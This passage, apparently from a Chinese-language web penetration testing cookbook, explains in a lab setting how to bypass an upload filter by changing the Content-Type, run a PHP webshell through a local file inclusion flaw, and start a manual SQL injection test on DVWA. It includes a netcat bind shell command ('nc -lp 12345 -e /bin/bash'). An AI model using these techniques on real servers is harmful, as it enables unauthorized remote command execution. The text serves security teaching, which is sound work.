 成功了！如截图所示，服务器的 IP 地址是`192.168.56.11`。现在，我们可以通过在文本框中输入命令，或为`cmd`参数设置不同的值来执行服务器上的命令。

# 它是如何工作的...

首先，我们发现应用程序在接受上传之前会验证文件。应用程序验证文件的方式有多种，最简单和最常见的方法是检查文件扩展名和请求的`Content-Type`头部；此方法在本食谱中使用。为了绕过这一保护机制，我们修改了文件的内容类型，默认情况下浏览器将其设置为`application/x-php`，我们将其修改为服务器期望的类型，以便让服务器将文件作为图像接受：`image/jpeg`。

有关 HTTP 通信中有效类型的更多信息，请查看以下网址：[`developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types) 和 [`developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Complete_list_of_MIME_types`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Complete_list_of_MIME_types)。

我们上传的文件 `webshell.php` 接受一个 `GET` 参数（`cmd`），并将其作为输入参数传递给 PHP 的 `system()` 函数。`system` 的作用是调用系统命令并将输出显示在响应中返回给客户端。其余代码只是一个 HTML 表单，允许我们一遍又一遍地输入命令。注意，表单的 action 被设置为文件上传的相对路径。这是因为文件并不是直接调用的，而是作为包含文件被引入的。这意味着它的代码会作为包含者代码的一部分被解释，因此，所有相对路径和网址都从包含者的角度来解释。

一旦文件上传完成，我们利用 LFI 漏洞执行了它，并在服务器上运行了系统命令。

# 还有更多…

一旦我们能够上传并执行服务器端代码，就有很多方法可以利用它来攻破服务器。例如，在绑定 shell 中，我们建立一个直接连接，允许我们直接与服务器交互，而无需通过 `webshell`。一个非常简单的做法是在服务器中运行以下命令：

```
nc -lp 12345 -e /bin/bash
```

它将打开 TCP 端口 `12345` 并监听连接。当连接成功时，它会执行 `/bin/bash`，接收输入，并通过网络将输出发送到连接的主机（攻击机）。要连接到受害者服务器，假设为 `192.168.56.10`，我们在 Kali 机器上运行以下命令：

```
nc 192.168.56.10 12345
```

这会连接到监听 `12345` 端口的服务器。也可以让服务器下载一个恶意程序，例如特权提升漏洞，并执行它以成为拥有更多权限的用户。

# 手动识别 SQL 注入

大多数现代 web 应用实现了某种数据库，SQL 是用来查询数据库的最流行语言。在 **SQL 注入**（**SQLi**）攻击中，攻击者试图通过在表单输入或请求的任何其他参数中注入 SQL 命令，来篡改应用与数据库之间的通信，迫使应用发送被修改的查询，这些查询在服务器端被用来构建 SQL 语句。

在本例中，我们将测试一个 web 应用的输入，看它是否容易受到基于错误的 SQL 注入（SQLi）攻击。

# 如何操作…

登录到 DVWA，进入 SQL 注入页面，检查安全级别是否为低：

1.  与之前的步骤一样，先通过输入一个数字来测试应用程序的正常行为。将用户 ID 设置为`1`并点击提交。通过查看结果，我们可以说应用程序查询了数据库，查看是否存在 ID 为 1 的用户，并返回了该用户的 ID、姓名和姓氏。

1.  接下来，我们必须测试如果发送应用程序没有预期的内容会发生什么。在文本框中输入`1'`并提交该 ID。如以下截图所示，应用程序应该会响应一个错误：

![](img/0c910232-1b76-4177-927e-5096ce25a9b0.png)
